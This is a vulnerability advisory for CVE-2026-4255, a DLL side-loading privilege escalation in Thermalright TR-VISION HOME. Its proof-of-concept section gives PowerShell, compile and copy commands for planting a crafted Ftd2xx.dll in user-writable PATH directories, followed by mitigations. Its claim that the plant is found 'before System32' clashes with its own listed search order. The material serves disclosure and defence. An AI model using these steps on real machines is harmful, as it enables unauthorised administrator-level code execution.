




# CVE-2026-4255 Thermalright TR-VISION HOME DLL Side-Loading Privilege Escalation

**Severity:** HIGH (CVSS 8.4)  
**CWE:** CWE-829 Inclusion of Functionality from Untrusted Control Sphere  
**Published:** 16/03/2026  
**CNA:** Toreon  
**Affected versions:** Thermalright TR-VISION HOME ≤ 2.0.5 (Windows 64-bit)  
**Discovered by:** Ard33

---

## Description

Thermalright TR-VISION HOME loads `Ftd2xx.dll` (FTDI USB-to-serial library) using the default Windows DLL search order. This order includes user-writable directories before protected system locations. Since TR-VISION HOME always executes with administrative privileges and performs no integrity or signature verification on loaded libraries, an attacker who can write to any directory on the `PATH` can plant a crafted `Ftd2xx.dll` and have it loaded with elevated privileges the next time the application launches.

No administrative rights are required to plant the DLL. A low-privileged user can exploit this against any user who subsequently launches TR-VISION HOME with elevation.

### CVSS 4.0 Vector

```
CVSS:4.0/AV:L/AC:L/AT:N/PR:N/UI:A/VC:H/VI:H/VA:H/SC:H/SI:H/SA:H
```

| Metric | Value |
|---|---|
| Attack Vector | Local |
| Attack Complexity | Low |
| Attack Requirements | None |
| Privileges Required | None |
| User Interaction | Active (victim launches app) |

---

## Root Cause

The application calls `LoadLibrary("Ftd2xx.dll")` (or imports it implicitly at load time) without specifying a fully qualified path. Windows resolves the library by walking the search order defined in [MSDN  Dynamic-Link Library Search Order](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order):

1. The directory from which the application was loaded  
2. The system directory (`C:\Windows\System32`)  
3. The 16-bit system directory  
4. The Windows directory  
5. **The current working directory**  
6. **Directories listed in the `PATH` environment variable** ← exploitable

An attacker plants `Ftd2xx.dll` in a user-writable directory that appears on `PATH` before `System32`. `C:\Users\<User>\.local\bin`) is one such directory and is present on `PATH` by default, making it a reliable drop location.

---

## Affected Software

| Software | Version | Platform |
|---|---|---|
| Thermalright TR-VISION HOME | ≤ 2.0.5 | Windows x64 |

Tested on TR-VISION HOME 2.0.5 on Windows 11.

---

## Proof of Concept

### Prerequisites

- Any standard Windows user account (no administrator rights required to plant the DLL)
- A user-writable directory present on `%PATH%`
- Target user must launch TR-VISION HOME (it requests elevation via UAC on start)

### Steps

**1. Identify a writable PATH directory**

```powershell
$env:PATH -split ';' | Where-Object {
    if (-not $_ -or -not (Test-Path $_)) { return $false }
    try {
        $t = Join-Path $_ '.wrtest'
        [System.IO.File]::Create($t).Close()
        Remove-Item $t -Force
        $true
    } catch { $false }
}
```

A reliable default: `C:\Users\<User>\.local\bin`

**2. Compile the PoC DLL**

MinGW (cross or native):
```bash
gcc -shared -o Ftd2xx.dll poc/Ftd2xx.c -Wl,--out-implib,Ftd2xx.lib
```

MSVC:
```cmd
cl /LD poc\Ftd2xx.c /Fe:Ftd2xx.dll
```

**3. Plant the DLL**

Choose any writable directory from step 1. Two common defaults:

```cmd
:: uv / pipx default scripts directory
copy Ftd2xx.dll "C:\Users\<victim>\.local\bin\Ftd2xx.dll"

:: Python Launcher (standard Python install)
copy Ftd2xx.dll "C:\Users\<victim>\AppData\Local\Programs\Python\Launcher\Ftd2xx.dll"
```

No elevation required for this step.

**4. Trigger**

The victim launches TR-VISION HOME (e.g. from Start Menu or system tray). The UAC prompt runs the application with administrative privileges. During initialization, `Ftd2xx.dll` is resolved via the search order, the planted copy is found before `System32`, and the attacker's `DllMain` executes inside the elevated process.

**5. Expected result**

- A popup appears confirming the DLL was loaded inside the elevated process
- `C:\Users\Public\CVE-2026-4255_pwned.txt` is created, containing:
  - Process ID of TR-VISION HOME
  - Confirmation that `TokenIsElevated = YES`

### Screenshot evidence

Procmon showing TR-VISION HOME (PID 78940) searching for `Ftd2xx.dll` across PATH directories — all returning NAME NOT FOUND until the planted copy is resolved:



`Ftd2xx.dll` planted in `AppData\Local\Programs\Python\Launcher\` (date 26/12/2025 — discovery day):



Elevated cmd shell spawned by the loaded DLL — title bar confirms Administrator context:



TR-VISION HOME version 2.0.5:



---

## Mitigation

**For Thermalright:**

1. Load `Ftd2xx.dll` using a fully qualified path at runtime:
   ```c
   LoadLibraryExA("C:\\Windows\\System32\\Ftd2xx.dll", NULL, LOAD_LIBRARY_SEARCH_SYSTEM32);
   ```
2. Use `LOAD_LIBRARY_SEARCH_SYSTEM32` or `LOAD_LIBRARY_SEARCH_APPLICATION_DIR` flags with `LoadLibraryEx`.
3. Verify the digital signature of loaded libraries via `WinVerifyTrust`.
4. Enable Safe DLL Search Mode (`HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\SafeDllSearchMode = 1`), though this does not fully mitigate PATH-based planting.

**For users (temporary):**

- Place the legitimate `Ftd2xx.dll` (from the FTDI D2XX driver package) directly in the TR-VISION HOME installation directory (e.g. `C:\Program Files\TR-VISION HOME\`). The application directory is the first location searched, so a legitimate copy there takes priority over any PATH-based plant.
- Do not run TR-VISION HOME until a patched version is available.

---

## Timeline

| Date | Event |
|---|---|
| 26/12/2025 | Vulnerability discovered |
| 27/12/2025 | Vendor (Thermalright) contacted via support channels |
| 16/03/2026 | Public disclosure  CVE-2026-4255 assigned by Toreon CNA |

---

## References

- [NVD  CVE-2026-4255](https://nvd.nist.gov/vuln/detail/CVE-2026-4255)
- [CWE-829  Inclusion of Functionality from Untrusted Control Sphere](https://cwe.mitre.org/data/definitions/829.html)
- [MSDN  DLL Search Order](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)
- [FTDI Ftd2xx Driver](https://ftdichip.com/drivers/d2xx-drivers/)
- [Thermalright TR-VISION HOME](https://www.thermalright.com/)

---

## Disclaimer

This proof-of-concept is provided for educational and research purposes only. The PoC payload is intentionally benign  it writes a text file and shows a message box. Use only against systems you own or have explicit written permission to test. The author bears no responsibility for misuse.
